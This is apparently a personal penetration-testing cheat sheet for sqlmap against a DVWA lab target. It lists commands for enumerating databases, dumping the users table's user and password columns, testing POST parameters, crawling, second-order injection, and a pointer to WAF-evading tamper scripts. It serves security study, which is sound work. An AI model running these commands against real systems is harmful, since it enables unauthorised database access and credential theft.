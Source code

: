 ```yaml
---
Description: Tools used to automate the process of finding SQL injection vulnerabilities
URL: https://sqlmap.org/
---
```


![](../../zzz_res/attachments/sqlmap.png)

### Enumerating the DBMS

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" --dbs
```

### Dumping Tables, Columns and Data

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa --tables
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users --columns
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users -C user,password --dump
```

### Testing POST parameters

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/" --data="id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users --columns
```

### Automatic crawl and SQLi test

```bash
$ sqlmap -u "http://victim/.it" --crawl=1 --batch --threads=5
```

### Testing 2nd order SQL Injection

Save both injection and oracle HTTP requests and run:  

```bash
$ sqlmap -r injection.req --second-req=oracle.req --batch
```

### Custom tamper scripts

Creating your own tamper script for SQLMap involves writing a Python script that modifies the payloads used by SQLMap to evade web application firewalls (WAFs) or other filtering mechanisms. [Here](https://nav1n0x.gitbook.io/advanced-sql-injection-techniques#creating-your-own-tamper-script) is a step-by-step guide to create a custom tamper script. [^sqlmap-custom-tamper]

[^sqlmap-custom-tamper]: [🚨Advanced SQL Injection Techniques by Nav1n0x](../../Readwise/Articles/gitbook.io%20-%20🚨Advanced%20SQL%20Injection%20Techniques%20by%20Nav1n0x.md)